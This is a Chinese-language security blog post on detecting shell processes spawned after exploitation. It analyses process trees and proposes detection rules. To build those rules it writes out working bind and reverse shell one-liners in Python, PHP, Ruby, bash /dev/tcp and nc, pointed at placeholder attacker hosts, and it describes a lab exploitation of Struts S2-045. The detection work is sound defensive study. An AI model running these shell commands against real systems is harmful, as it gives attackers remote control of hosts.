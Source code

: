 ```yaml
---
layout: post
title:  "异常进程检测（getshell）的场景分析和发现方法"
date: 2017-05-16 18:06:26 +0800
author: Mushen
categories: original
---
```


为了能识别主机上被攻击者利用漏洞后获取的shell进程，整理了网络上常见的正向或反向shell的姿势技巧。在测试环境中设计和模拟了集中getshell的场景，并分析这些场景下进程的派生与继承关系。

### 获得shell的姿势
1.一段python脚本
{% highlight python %}
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',1234))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)

{% endhighlight %}

观察进程的派生关系，通过监听的端口找到模拟攻击者的shell进程，这个pid为5359的进程在进程树上是init进程的子进程，这是一个比较明显的异常信号。这是一个正向连接的脚本，即服务器开放一个监听端口让攻击者连接。这个脚本fork出一个子进程，当用户连接上以后就结束主进程。子进程由init接管，pid变成1。而通常，bash、sh等shell或者perl、python、ruby、lua等程序语言一定是由bash、ssh、login等程序派生出来的。


![abnormal-proc-detection-001.png](/assets/img/abnormal-proc-detection-001.png)

2.一句php命令
```
php -r '$sock=fsockopen("127.0.0.1",12345 );exec("/bin/sh -i <&3 >&3 2>&3");'
```


php命令以文件的形式创建一个socket并监听端口，正向连接，同步调用sh。在进程树上，是一个php进程派生出一个sh。对于检测者，是比较理想的一种情况。


![abnormal-proc-detection-002.png](/assets/img/abnormal-proc-detection-002.png)

3.一句ruby命令

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","4321");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


ruby创建一个反向连接，与python脚本一样，完成连接后ruby主进程退出，子进程由init接管。与python不同的是，这句命令直接使用ruby IO模块中的方法与操作系统交互，没有调用shell。（也有调用shell的命令。）如果删除了"exit if fork;"这句，则变成bash派生出的ruby进程，检测难度就变大了。


![abnormal-proc-detection-003.png](/assets/img/abnormal-proc-detection-003.png)
上图是有exit if fork;的情况


![abnormal-proc-detection-004.png](/assets/img/abnormal-proc-detection-004.png)
上图是没有exit if fork;的情况

4.一句话bash反弹shell
```
bash -i >& /dev/tcp/attacker's_ip/attacer's_port 0>&1
```
这种写法从进程间的关系上看不出异常，但是因为一般会利用某种应用的漏洞执行shell命令，所以还是有办法检测的。


5.利用nc反弹shell
a 使用管道的方式

```
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe

/bin/sh | nc attackerip 4444

```
b 使用nc的-e参数

由于没有找到合适的测试环境，没有测试成功，线上环境编译的nc一般不包含-e参数，风险较小（实际上在入侵的时候几乎从来没有执行成功过）。

### 检测规则

1.父进程为某个守护进程（web应用、数据库、自研应用），子进程为bash、ash、ksh……

2.父进程为某个守护程序或程序语言，子进程为另一种程序语言。例如java派生出perl。

2.init派生的bash、ash、ksh……等等。（PHP、ruby、perl也要监控，但鉴于很多监控工具使用python编写，如果检测init直接派生的python会有大量误报的问题）

3.nc程序进程，出现了管道或者-e参数

以上是特征非常明显的进程状态，以下还有两条可以作为辅助的特征，但最好不要独立使用，因为会有很多误报。

1.子进程的创建时间与父进程相差很远（同时又不是周期性的），除非父进程是init的情况

2.bash建立了socket

其实还有一些规则是我没想到的，欢迎大家补充。可以发邮件给我wangzf0225#gmail.com

### 模拟一个场景
例子：利用S2-045漏洞反弹shell

使用medicean的docker镜像创建了一个包含S2-042的典型利用场景的环境。利用exp成功执行命令"bash -i >& /dev/tcp/attacker's_ip/attacer's_port 0>&1"弹回shell，观察进程树：
![abnormal-proc-detection-005.png](/assets/img/abnormal-proc-detection-005.png)

发现这是一个比较典型的java派生bash子进程的情况。

当然，有时也会通过调用另一个语言程序实现反弹。
![abnormal-proc-detection-006.png](/assets/img/abnormal-proc-detection-006.png)


### PS 补充一点

pstree命令以默认方式输出所有进程，其中一部分进程pid使用pa aux中无法找到。这部分进程名通常用一对花括号包围，例如"{process}"。这是因为pstree默认输出所有的进程信息，而ps aux只输出一部分（尽管名义上输出全部）。使用ps -eLf可以看到所有的进程信息，实际上，而没有被显示的这部分进程的pid在ps -eLf中叫做LWP，即light weight process，也就是线程（thread）。
